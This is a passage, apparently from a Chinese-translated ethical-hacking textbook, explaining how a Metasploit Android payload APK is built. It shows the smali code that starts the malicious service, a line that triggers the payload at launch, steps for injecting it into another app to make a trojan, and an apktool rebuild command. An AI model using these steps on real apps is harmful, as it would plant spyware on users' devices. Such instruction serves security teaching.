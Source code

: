 如果你曾花时间处理移动应用，你可能会期待看到一个*.dex*文件。这些文件包含 Android Runtime（ART）执行的字节码。没有该文件的原因是*smali*是应用代码的汇编表示，而*.dex*是机器表示。*Payload.smali*文件包含与我们恶意植入相关的代码，我们稍后会将该文件转移到另一个 APK 中以创建木马。

现在，让我们检查一下*MainActivity.smali*文件：

```
.class public Lcom/metasploit/stage/MainActivity;

.super Landroid/app/Activity;

...

# virtual methods

.method protected onCreate(Landroid/os/Bundle;)V

    .locals 0

    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle

			 ;)V

 ➊ invoke-static {p0}, Lcom/metasploit/stage/MainService;->startService(

			 Landroid/content/Context;)V

 ➋ 

    invoke-virtual {p0}, Lcom/metasploit/stage/MainActivity;->finish()V

    return-void

.end method
```

恶意 APK 启动`MainService` ➊，这是一个由 Metasploit Framework 的开发者编写的恶意 Android 服务。该服务最终会在后台加载有效载荷。如果你希望立即启动恶意有效载荷活动，可以在前面的示例中在➋位置添加以下代码片段：

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->onCreate(Landroid/content

			 /Context;)V
```

同样，你可以通过反编译现有的 APK，复制*Metasploit*文件夹到*smali*文件夹，然后将前面的代码片段添加到*MainActivity.smali*中以启动有效载荷，从而创建自己的特洛伊木马。

#### ***重新构建并签署 APK***

现在我们已经检查了文件，可以通过运行以下命令重新构建它：

```
kali@kali:~/Desktop/AndroidTrojan/$ apktool build ~/Desktop/AndroidTrojan/

			 malicious -o malicious2.apk
```
